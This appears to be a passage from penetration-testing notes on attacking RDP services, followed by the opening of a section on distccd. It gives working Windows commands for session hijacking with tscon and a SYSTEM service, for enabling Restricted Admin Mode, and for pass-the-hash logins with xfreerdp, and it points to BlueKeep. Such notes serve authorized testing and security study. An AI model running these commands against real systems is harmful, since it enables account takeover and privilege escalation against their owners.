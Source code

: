 - Authentication and connection to such RDP servers can be made, for example, using `xfreerdp`, `rdesktop`, or `Remmina` 

  ```bash
  xfreerdp /u:[USER] /p:"[PASSWD]" /v:[IP]
  ```

#### Exploit

- The identity-providing certificates are merely self-signed by default, so the client cannot distinguish a genuine certificate from a forged one and generates a certificate warning for the user.

- **Session Hijacking** (*no longer works on Server 2019*)

  Go from one user to another

  - Get active users with `query user` 

  - If you have SYSTEM privileges (or if you are admin and you can run the terminal as Administrator by right click):

    ```cmd
    tscon [TARGET_SESSION_ID] /dest:[OUR_SESSION_NAME]
    ```

  - If have Administrator privileges:

    1. Create a service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges.

       ```cmd
        sc.exe create service binpath= "cmd.exe /k tscon [TARGET_SESSION_ID] /dest:[OUR_SESSION_NAME]"
       ```

    2. Start the service

       ```cmd
       net start service
       ```

- **Pass-the-Hash (PtH)**

  Login using only the hash

  1. Enable `Restricted Admin Mode`

     ```cmd
     reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
     ```

  2. ```cmd
     xfreerdp /v:[IP] /u:[USER] /pth:[HASH]
     ```

- **BlueKeep (RCE without Auth) **[CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)

### 3632 distccd

**Distcc** is a tool that enhances the **compilation process** by utilizing the **idle processing power** of other computers in the network. When **distcc** is set up on a machine, this machine is capable of distributing its **compilation tasks** to another system. This recipient system must be running the **distccd daemon** and must have a **compatible compiler** installed to process the sent code.
